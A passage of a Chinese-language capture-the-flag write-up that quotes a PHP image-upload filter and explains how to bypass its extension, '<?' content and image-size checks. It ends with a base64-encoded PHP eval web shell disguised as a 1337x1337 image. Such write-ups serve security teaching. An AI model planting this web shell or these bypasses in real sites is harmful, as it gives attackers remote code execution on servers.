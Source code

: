 ```
    $tmp_name = $_FILES["image"]["tmp_name"];    // 临时文件名
    $name = $_FILES["image"]["name"];    // 文件名
    $parts = explode(".", $name);
    $ext = array_pop($parts);    // 后缀

    if (empty($parts[0])) `{`
        array_shift($parts);
    `}`

    if (count($parts) === 0) `{`
        die("lol filename is empty");
    `}`

    if (in_array($ext, $disallowed_ext, TRUE)) `{`    // 可用大小写绕过文件后缀
        die("lol nice try, but im not stupid dude...");
    `}`

    $image = file_get_contents($tmp_name);
    if (mb_strpos($image, "&lt;?") !== FALSE) `{`    // 文件内容中不能存在&lt;?
        die("why would you need php in a pic.....");
    `}`

    if (!exif_imagetype($tmp_name)) `{`
        die("not an image.");
    `}`

    $image_size = getimagesize($tmp_name);
    if ($image_size[0] !== 1337 || $image_size[1] !== 1337) `{`    // 限制了图片的尺寸必须为 1337x1337
        die("lol noob, your pic is not l33t enough");
    `}`

    $name = implode(".", $parts);
    move_uploaded_file($tmp_name, $userdir . $name . "." . $ext);
`}`

echo "&lt;h3&gt;Your &lt;a href=$userdir&gt;files&lt;/a&gt;:&lt;/h3&gt;&lt;ul&gt;";
foreach(glob($userdir . "*") as $file) `{`
    echo "&lt;li&gt;&lt;a href='$file'&gt;$file&lt;/a&gt;&lt;/li&gt;";
`}`
echo "&lt;/ul&gt;";

?&gt;
```

阅读源码可知，题目限制了上传的图片的内容不能存在 `&lt;?`，我们可以使用编码绕过；限制了上传图片的尺寸必须为 1337×1337，我们可以直接使用 WBMP 绕过。

首先上传图片马 images.png，里面内容如下：

```
#define width 1337
#define height 1337
APD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4=

// &lt;?php eval($_POST[whoami]);?&gt;
```
